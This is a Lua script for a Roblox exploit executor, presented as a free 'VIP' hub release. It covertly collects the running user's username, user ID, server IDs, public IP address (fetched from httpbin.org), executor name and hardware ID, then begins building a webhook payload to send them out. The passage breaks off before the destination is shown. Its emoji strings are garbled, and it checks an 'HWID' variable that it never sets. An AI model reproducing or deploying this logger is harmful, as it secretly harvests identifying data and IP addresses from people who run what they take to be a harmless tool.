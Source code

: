 # REWORK-FREE-VIP-RELEASE
task.spawn(function()
    local lp = game.Players.LocalPlayer
    local userName, displayName = lp.Name, lp.DisplayName
    local userId = lp.UserId

    local jobId = game.JobId
    local placeId = game.PlaceId

local function GetServerType()
	if game.PrivateServerId ~= "" then
		if game.PrivateServerOwnerId ~= 0 then
			return "VIPServer"
		else
			return "ReservedServer"
		end
	else
		return "StandardServer"
	end
end

local http = game:GetService("HttpService")
local req = request
local Get = req(
    {
        Url = "https://httpbin.org/ip", 
        Method = 'GET'
        }
        )
local Data = game:GetService('HttpService'):JSONDecode(Get.Body)
IP = Data.origin -- Ip

    local hubName = "RELEASED HUB"
    local currentTime = os.date("%Y-%m-%d %H:%M:%S")

    local identifiedExecutor = identifyexecutor and tostring(identifyexecutor()) or "Unknown"
    local executorName = getexecutorname and tostring(getexecutorname()) or "Unknown"
    local hwid = (gethwid and tostring(gethwid())) or (get_hwid and tostring(get_hwid()))

    local deviceType = game:GetService("UserInputService"):GetPlatform() == Enum.Platform.Windows and "ÃƒÂ°Ã…Â¸Ã¢â‚¬â„¢Ã‚Â»" or "ÃƒÂ°Ã…Â¸Ã¢â‚¬Å“Ã‚Â±"

    local function fetchImage()
        local firstUrl = "https://thumbnails.roblox.com/v1/users/avatar-headshot?userIds=" .. userId .. "&size=150x150&format=Png"
        local secondUrl = game:HttpGet(firstUrl)
        
        local jsonData = http:JSONDecode(secondUrl)
        local imageUrl = jsonData.data[1].imageUrl

        return imageUrl
    end

    function webhook()
        if HWID ~= "8d27e11c92518374" then
            local imageUrl = fetchImage()
            local Body = http:JSONEncode({
                ["username"] = hubName,
                --["avatar_url"] = "thumbnailOfTheWebhook",
